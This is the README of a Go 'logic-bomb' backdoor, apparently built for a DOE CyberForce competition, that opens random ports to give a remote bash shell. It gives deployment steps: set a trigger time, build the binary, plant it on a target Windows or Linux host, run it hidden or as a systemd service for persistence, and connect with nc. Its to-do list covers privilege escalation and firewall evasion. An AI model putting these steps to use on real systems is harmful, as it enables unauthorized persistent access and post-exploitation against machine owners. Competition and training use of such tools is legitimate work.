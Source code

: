 # logicbomb-reverse-shell
Author: Shail Patel

Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'. 

3. Place the created binary file into your desired target location path of windows/Linux directory. Then execute---> './logicbomb &'. You can also bind this as a service file inside systemd manually in order to avoid using '&' while executing the file. I will post that part later.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a bash shell and you are in!
Check whoami, pwd, ls, ifconfig. Also monitor using 'netstat -antlp | grep ''


Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

1. Work more on a user based priviledge esclation technique.
2. Find a way to punch a hole through firewall in order to avoid instant blocking of the ports, if any.
3. Find alternative way to regenerate another ports, in case gets killed by processids.

If you have any questions, please email me directly
shail.patel@nrel.gov

